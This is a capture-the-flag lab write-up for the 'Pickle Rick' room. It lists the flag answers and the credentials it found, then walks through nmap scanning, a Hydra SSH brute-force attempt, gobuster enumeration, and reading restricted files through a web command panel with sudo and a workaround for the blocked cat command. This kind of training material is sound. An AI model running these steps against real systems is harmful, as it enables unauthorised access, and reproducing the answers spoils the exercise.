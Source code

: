 # Pickle Rick 🥒
Date: 04.02.2025
Difficulty: Easy

## Questions and Answers
1. What is the first ingredient that Rick needs?
```mr. meeseek hair```
2. What is the second ingredient in Rick’s potion?
```1 jerry tear```
3. What is the last and final ingredient?
```fleeb juice```

## Obtained Information:
- **Target IP Address:** `<IP_ADDRESS>`
- **Rick's Username:** `R1ckRul3s`
- **Password found inside robots.txt:** `Wubbalubbadubdub`

## Process:
1. Scanning target IP looking for open ports with nmap:
```bash
nmap -sV 10.10.130.148
```

**Results:**

- Open ports: `22 (SSH)`, `80 (HTTP)`

2. Exploring website running on port 80 server. There is a note that Rick left for Morty!
```text
Help Morty!
Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!
I need you to *BURRRP*....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is, I have no idea what the *BURRRRRRRRP*, password was! Help Morty, Help!
```

3. Looking into source code of the website I bumped into comment:
```html
<!--
    Note to self, remember username!
    Username: R1ckRul3s
  -->
```
Rick doesn't remember password, but maybe we can bruteforce it somehow.

4. When trying to bruteforce password with Hydra:
```bash
hydra -l R1ckRul3s -P ./Tools/wordlists/rockyou.txt "ssh://<IP_ADDRESS>"
```
I encountered information that target doesn't support password authentication. Indeed, login attempt using ssh results in ```Permission denied (publickey).```. Looks like we have to dig deeper.
5. Decided to use gobuster to enumerate website's directories:
```bash
gobuster dir -u "http://<IP_ADDRESS>" -w ./Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -r
```

**Results**
- /assets (Status: 200) ✅
- /server-status (Status: 403)

In assets I've found some bootstrap and jquery as well as images and gif. It seemed weird, because only one of these images is actually used on the website. So I decided to download them:

```bash
wget -r -np -nd -A jpg,jpeg,gif "http://<IP_ADDRESS>/assets/"
```
And inspect it's metadata via exiftool:
```bash
exiftool *.jpg *.jpeg *.gif
```
But nothing out of order there. Another dead end...
6. But wait, there is also a robots.txt.tmp file downloaded. And there is some weird text: `Wubbalubbadubdub`. Maybe it's a password?
7. Gobuster again. This time I added -x .php extension to look deeper:
```bash
gobuster dir -u "http://10.10.130.148" -w ./Tools/wordlists/dirbuster/directory-list-2.3-small.txt -x .js,.php
```

**Results**
- /.php                 (Status: 403)
- /login.php            (Status: 200) ✅
- /assets               (Status: 301) 
- /portal.php           (Status: 302) 
- /.php                 (Status: 403)

8. Using obtained username and password I got access to command panel. Used ```ls``` to see that there is some file named: `Sup3rS3cretPickl3Ingred.txt`. We can't access it via ```cat``` command so let's just view it via url:
   ```http://<IP_ADDRESS>/Sup3rS3cretPickl3Ingred.txt```
9. We got our first ingredient!
10. There is also a `clue.txt` which contains, well... a clue! 
```text
Look around the file system for the other ingredient.
```
11. Found file `second ingredient` in /home/rick/ directory! But we can't use cat again, so:
```bash
while read line; do echo $line; done <../../../home/rick/"second ingredients"
```
 And we got second ingredient!

12. `3rd.txt` file found /root directory. We had to use ```sudo``` to get access:
```bash
sudo ls ../../../root
```
13. This time we can omit ```cat``` command block with ```nl```:
```bash
sudo nl ../../../root/3rd.txt
```

And we got 3rd ingredient! That's all:
```text
     1	3rd ingredients: fleeb juice
```

## Reflection & Questions for Further Research 🤔💡
- What ```Permission denied (publickey).``` error means when using ssh?

## Summary & Takeaways 📌📖
- It's best to use -x when using gobuster dir enumeration, because it couldn't find login.php page 